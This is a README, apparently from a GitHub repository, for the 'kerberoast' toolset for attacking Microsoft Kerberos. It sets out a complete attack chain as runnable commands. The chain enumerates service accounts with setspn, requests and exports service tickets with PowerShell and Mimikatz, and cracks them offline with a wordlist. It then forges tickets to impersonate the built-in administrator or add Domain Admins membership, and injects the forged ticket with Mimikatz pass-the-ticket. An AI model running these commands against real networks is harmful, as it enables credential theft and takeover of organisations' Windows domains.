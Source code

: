 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
PS C:\> setspn -T medin -Q */*

Request Ticket(s)
-----------------
One ticket:  
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  

All the tickets
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
mimikatz # kerberos::list /export

Crack with rgsrepcrack
----------------------
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi

Rewrite
-------
Make user appear to be a different user  
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  

Add user to another group (in this case Domain Admin)  
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  

Inject back into RAM with Mimikatz
----------------------------------
kerberos::ptt sql.kirbi
